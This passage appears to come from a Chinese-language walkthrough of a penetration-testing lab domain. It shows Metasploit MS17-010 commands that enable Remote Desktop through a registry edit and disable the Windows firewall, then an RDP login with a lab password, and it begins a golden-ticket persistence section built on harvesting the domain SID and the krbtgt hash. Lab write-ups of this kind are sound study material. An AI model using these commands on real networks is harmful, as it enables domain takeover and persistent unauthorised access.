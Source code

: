 登陆成功，拿下`141` ，域控尝试能不能也拿下了,记得关防火墙

```python
msf6 auxiliary(admin/smb/ms17_010_command) > set rhost 192.168.52.141
msf6 auxiliary(admin/smb/ms17_010_command) > set command 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f'
msf6 auxiliary(admin/smb/ms17_010_command) > set command set command netsh advfirewall set allprofiles state off
```

```python
proxychains rdesktop 192.168.52.38 -p hongrisec@2019 -u administrator
```

![image.png](image%2012.png)

也是可以拿下的，但是用户不存在AD域的文件和`ad`域管理器，但确实是管理员账户，也算是拿下域控了

## 权限维持（黄金票据）

黄金票据是指能够绕过认证授权（Authentication and Authorization）机制并获得所需权限的票据。

1. 现在已经获得域的权限了
2. 我们要收集域名称，域管理员账户`SID`，`krbtgt`账户的`HTLM`的`HASH` （重要）
3. 获取域SID以及域名称
    
    ![image.png](image%2013.png)
    